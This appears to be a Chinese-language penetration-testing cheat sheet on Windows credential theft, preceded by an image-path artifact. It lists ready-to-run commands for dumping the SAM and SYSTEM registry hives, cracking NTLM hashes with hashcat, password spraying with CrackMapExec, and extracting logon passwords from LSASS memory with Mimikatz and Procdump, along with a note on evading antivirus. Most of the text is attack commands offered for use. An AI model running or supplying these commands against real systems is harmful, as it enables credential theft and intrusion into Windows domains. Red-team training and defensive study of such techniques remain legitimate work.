 匯出 SAM 檔：
`reg.exe` 
USAGE：
- `reg save HKLM\SAM <save_filename>`
- `reg save HKLM\SYSTEM <save_filename>`
    - Default file name：C:\inetpub\wwwroot\sam.zip

`Invoke-NinjaCopy`
Github:
https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1
`Invoke-NinjaCopy -Path SAM -LocalDestination SAM_COPY`

#### NTLM Hash
- https://www.cmd5.com/
- Hashcat
    - hashcat -a 0 -m 1000 ntlm.hash pass.dict --force

#### Password Spraying
- CrackMapExec：https://github.com/byt3bl33d3r/CrackMapExec
    - cme `protocol` `target(s)` -u username -p password
    - cme `protocol` `target(s)` -u ~/file_usernames -p ~/file_passwords
    - cme smb 10.10.10.100 -u administrator -p Passw0rd
    - cme smb 10.10.10.100 -u administrator -p Passw0rd --local-auth
    - cme smb `filename` -u administrator -p Passw0rd --local-auth
    
#### GPO

```
\\<domain>\SysVol\<domain>\Policie
\\<domain>\SysVol\<domain>\Policie\<UID>\Users\Scripts
\\<domain>\SysVol\<domain>\Policie\<UID>\Machine\Scripts
```

### Mimikatz
https://github.com/gentilkiwi/mimikatz/releases
- AV 可能會殺 --> [解法](#Dump-memory)
- 微軟會將使用者憑證資訊暫存在 lsass.exe
- 取得 Administrator後使用
- 解析其記憶體內容，挖出帳號、Hash
- 管理員權限開啟
- `privilege::debug`：切換到 Debug 權限
    - `sekurlsa::logonpasswords`
        - 取得 LSASS 中的登入密碼
    - `misc::memssp`
        - 處理lsass內存，透過標識和patch函數以重定向執行來進行。


### Dump memory
- Procdump：https://docs.microsoft.com/zh-tw/sysinternals/downloads/procdump
    - 取得 minidump：`Procdump.exe -accepteula -ma lsass.exe lsass.dmp`
    - mimikatz：
`Sekurlsa::minidump “/To/PATH/lsass.dmp”`
`Sekurlsa::logonPasswords`
